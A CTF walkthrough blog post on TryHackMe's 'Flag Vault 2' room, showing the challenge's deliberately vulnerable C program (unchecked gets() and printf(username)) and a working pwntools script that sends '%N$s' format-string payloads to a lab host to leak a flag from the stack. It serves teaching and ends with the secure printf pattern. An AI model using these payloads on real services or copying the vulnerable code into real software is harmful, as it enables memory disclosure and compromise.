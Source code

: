 ```yaml
---
title: "Flag Vault 2 CTF TryHackMe Walkthrough"
slug: flag-vault-2
layout: post
excerpt_separator: <!--more-->
categories:
  - ctfs
---
```


![](https://raw.githubusercontent.com/j4ke-exe/j4ke.io/refs/heads/main/assets/media/flag-vault-2-banner.jpg){: .center-image }

In this TryHackMe CTF challenge, [Flag Vault 2](https://tryhackme.com/room/hfb1flagvault2), our objective is to analyze and exploit a binary vulnerable to an f-string format attack. This vulnerability enables attackers to read arbitrary memory addresses or leak data on the stack by abusing the printf function without a format string.

<br>

## Step 1: Analyze Source Code

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
    printf( "  ______ _          __      __         _ _   \n"
        " |  ____| |         \\ \\    / /        | | |  \n"
        " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
        " |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
        " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
        " |_|    |_|\\__,_|\\__, | \\ / \\__,_|\\__,_|_|\\__|\n"
        "                  __/ |                      \n"
        "                 |___/                       \n"
        "                                             \n"
        "Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
        "==================================================================\n\n"
          );
}

void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);

    printf("Hello, ");
    printf(username);
    printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
    printf("Yours truly,\nByteReaper\n\n");
}

void login(){
    char username[100] = "";

    printf("Username: ");
    gets(username);

    // The flag isn't printed anymore. No need for authentication
    print_flag(username);
}

void main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    // Start login process
    print_banner();
    login();

    return;
}
```

### Observations:
- The vulnerable function is `print_flag()`, which accepts an unsanitized user input (`username`) and passes it directly into `printf()`.
- `gets()` is also bad, considering it allows an attacker to input without bounds checking, which can result in a **buffer overflow**.
- The flag is stored in memory in a buffer called `flag`, but the actual call to `printf("%s", flag)` has been commented out. The idea is that the flag is in memory but inaccessible... or is it?

<br>

## Step 2: Understand the Vulnerability

### What's happening?

The `username` buffer is read using `gets()`--which has no bounds checking (insecure)--and is passed directly to `printf()`:

```c
printf(username);
```

This introduces a **format string vulnerability**, where if user input contains format specifiers (like `%x`, `%s`, `%n`, etc.), they are interpreted by `printf()`, resulting in unwanted behavior.

<br>

### Why is it vulnerable?

Passing user-controlled input directly into `printf()` without a format string leads to undefined behavior, allowing attackers to:

- Leak stack contents via `%x`/`%s`
- Write arbitrary memory using `%n`
- Control execution flow

In this case, the goal is to grab the flag string stored in memory. Since it’s read with `fgets()` and stored in `char flag[200]`, we can try to leak stack positions where `flag` is located.

<br>

## Step 3: Exploit

Below is a simple Python script I wrote to brute-force stack positions with payloads like `%1$s`, resulting in leaking a stack position that contains the flag.

```python
import os
from pwn import *

TARGET_IP = '10.10.180.45'
TARGET_PORT = 1337

for i in range(1, 50):
    payload = f'%{i}$s'.encode()
    print(f'[+] Trying %{i}$s')
    r = remote(TARGET_IP, TARGET_PORT, timeout=5)
    r.recvuntil(b'Username:')
    r.sendline(payload)
    output = r.recvall(timeout=2).decode(errors='ignore')
    r.close()

    if 'THM{' in output:
        print(f'\nFound flag: {output}')
        break
    elif os.name == 'nt':
        os.system('cls')
    else:
        os.system('clear')
```

### Output:
```
[+] Trying %5$s
[+] Opening connection to 10.10.214.114 on port 1337: Done
[+] Receiving all data: Done (145B)
[*] Closed connection to 10.10.214.114 port 1337

Found flag:  Hello, THM{REDACTED}
. Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...

Yours truly,
ByteReaper
```

<br>

### How does this work?

- `printf(username)` interprets `%5$s` as "read the 5th item on the stack as a pointer to a string".
- This is where the `flag` buffer resides in memory after being populated by `fgets()`.

<br>

## Step 4: Hotwash

### Format String Vulnerabilities

When user input is passed to `printf()` or similar functions **without a format string**, you expose yourself to:

- **Memory leaks** via `%s`, `%x`
- **Memory writes** via `%n`
- **Execution redirection** (advanced)

### Vulnerable Patterns

```c
printf(username);         // vulnerable
printf("%s", username);   // secure
```

Learn more: [OWASP Format String Vulnerabilities](https://owasp.org/www-community/attacks/Format_string_attack)

Regardless of whether you're printing a simple or complex string, always use an explicit format string to mitigate this attack vector.

<br>

## Room Created By
- [munra](https://tryhackme.com/p/munra)
- [hadrian3689](https://tryhackme.com/p/hadrian3689)
